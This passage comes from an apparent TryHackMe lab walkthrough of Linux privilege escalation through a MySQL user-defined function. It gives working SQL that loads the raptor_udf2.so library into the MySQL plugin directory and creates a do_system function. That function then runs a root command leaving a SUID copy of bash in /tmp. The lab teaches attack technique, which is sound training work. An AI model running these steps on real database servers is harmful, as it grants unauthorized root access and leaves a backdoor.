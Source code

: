 ```sql
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
```
![Insert Shared Library](../../assets/images/thm/linuxprivesc/09-mysql_insert_sharedlib.png)

Now select the binary contents in the shared library and dump them into the plugins directory.

```sql
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```
![MySQL Dump Sharedlib Contents](../../assets/images/thm/linuxprivesc/10-mysql_dumpfile.png)

Finally, we need to create a function to call the shared library.

```sql
create function do_system returns integer soname 'raptor_udf2.so';
```
![MySQL Function](../../assets/images/thm/linuxprivesc/11-mysql_function.png)

We can confirm if our function is present in the *mysql* database.

```sql
select * from mysql.func;
```
![MySQL Function Confirm](../../assets/images/thm/linuxprivesc/12-mysql_function_confirm.png)

We can now use the above created function to run system commands which will be executed as root. Let's go ahead and use our function to copy `/bin/bash` to the `/tmp/rootbash` and set the SUID bit.

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
![MySQL Function Call](../../assets/images/thm/linuxprivesc/13-mysql_function_call.png)
